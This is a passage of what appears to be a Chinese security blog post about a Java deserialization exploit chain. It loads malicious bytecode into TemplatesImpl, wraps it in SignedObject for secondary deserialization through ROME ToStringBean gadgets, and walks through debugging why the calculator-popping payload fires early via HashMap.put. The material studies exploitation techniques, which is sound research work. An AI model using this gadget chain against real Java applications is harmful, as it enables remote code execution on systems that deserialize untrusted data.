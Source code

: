 ```java
        ois.readObject();  
    }  
    public static void main(String[] args) throws NoSuchAlgorithmException, IOException, SignatureException, InvalidKeyException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {  
        TemplatesImpl templatesImpl = new TemplatesImpl();  
        byte[] code = Files.readAllBytes(Paths.get("D:/gaoren.class"));  
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});  
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());  
        setFieldValue(templatesImpl, "_name", "x");  
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");  
        kpg.initialize(1024);  
        KeyPair kp = kpg.generateKeyPair();  
        HashMap hashMap1 = getPayload(Templates.class, templatesImpl);  
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));  
        HashMap hashMap2 = getPayload(SignedObject.class, signedObject);  
        Unser(hashMap2);  
    }  
}
```

虽然执行也能弹一次计算机，但是调试发现是调用 `getpayload` 里面的 put 方法触发的。

```java
HashMap hashMap1 = getPayload(Templates.class, templatesImpl);  
```

跟进就会发现这里根本没有进行二次反序列化，put 方法一直向下触发动态类加载恶意字节码就结束了。所以直接删除

```java
setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl()); 
```

这样在 put 方法触发到动态类加载是由于 `_tfactory` 属性为空就不会加载我们的恶意字节码，然后后面反序列化中是会自动给其赋值的，所以依然能触发。

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164915801-1390793801.png)

本以为完美无缺，但是运行发现会弹两个计算机。这又是怎么一回事呢？跟进发现第一次触发还是 put 方法在搞怪，只是这里的是 hashmap2 调用的 `getpayload` 方法

```java
HashMap hashMap2 = getPayload(SignedObject.class, signedObject);
```

发现调用 put 方法会一直走到 `ToStringBean.toString(String)`,然后调用 getter 方法，由于这里的 `toStringBean` 中的 obj 是 `signedObject`

```java
ObjectBean objectBean = new ObjectBean(ToStringBean.class, new ToStringBean(clazz, obj));
```

所以会调用 `signedObject` 中的 `getter` 方法，也就是 `getObject`，触发

```java
hashmap1.readobject
```

进行二次反序列化，最后触发动态加载恶意字节码。所以不难看出二次反序列化其实传入的就是一个对象包着另一个对象，先反序列化这个对象，然后利用特殊函数进行二次反序化反序列化另一个对象，**最后的恶意方法就在第二次反序列化的对象，第一个反序列化的对象作用就是触发这个特殊方法。**
